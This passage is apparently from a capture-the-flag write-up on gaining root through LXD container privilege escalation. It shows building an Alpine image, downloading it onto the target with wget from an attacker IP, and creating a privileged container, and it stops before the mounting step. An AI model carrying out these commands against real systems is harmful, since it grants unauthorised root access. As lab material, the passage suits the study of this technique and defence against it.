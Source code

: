 *There are currently no containers on the host*

### attack surface 

*i found two articles both with different approach to lxc privesc,*
one form [hackingarticles.in](https://www.hackingarticles.in/lxd-privilege-escalation/),
another form [MONOC.com](https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1)

*i use first one*
* **create container image,**
    * for container image i use **Alpine image** because it is a light weight linux image that become handy in image uploading.
        * i found a **lxd-alpine-builder** script from github user [saghul](https://github.com/saghul/lxd-alpine-builder.git)
    * use that script to build a alpine image
    	* there is a another github tool that create lxc containers from lxc images yaml files
	    	* [distrobuilder](https://github.com/lxc/distrobuilder)
	    	* images yaml files found [here](https://github.com/lxc/lxc-ci/tree/master/images)
	
* **upload that image in the host.**
* **import in lxc and configure that image,**
* **mount root filesystem.**
* **run container instance.**

# Root Privesc

**First**, create a alpine image , it takes some time to download all packages

`./build-alpine`

	Determining the latest release... v3.12                                                  
	Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
	...
	OK: 8 MiB in 19 packages 

after downloading completed a single tar file generated

	3.1M -rw-r--r-- 1 rj rj 3.1M Sep 14 15:25 alpine-v3.12-x86_64-20200914_1025.tar.gz

**Second**, upload using `wget`

	ash@tabby:~$ wget 10.10.15.151/alpine-v3.12-x86_64-20200914_1025.tar.gz
	...
	alpine-v3.12-x86_64-2 100%[===================>]   3.07M   28.4MB/s    in 0.1s     
	...
	ash@tabby:~$ ls -la alpine*
	-rw-rw-r-- 1 ash ash 3221262 Sep 14 14:25 alpine-v3.12-x86_64-20200914_1025.tar.gz


**Third**, import and configure the image into lxc

	ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200914_1025.tar.gz --alias ANYTHING
	ash@tabby:~$ lxc init ANYTHING pwned -c security.privileged=true
	Creating pwned
	ash@tabby:~$ lxc list                      
	+-------+---------+------+------+-----------+-----------+
	| NAME  |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
	+-------+---------+------+------+-----------+-----------+
	| pwned | STOPPED |      |      | CONTAINER | 0         |
	+-------+---------+------+------+-----------+-----------+
	ash@tabby:~$
	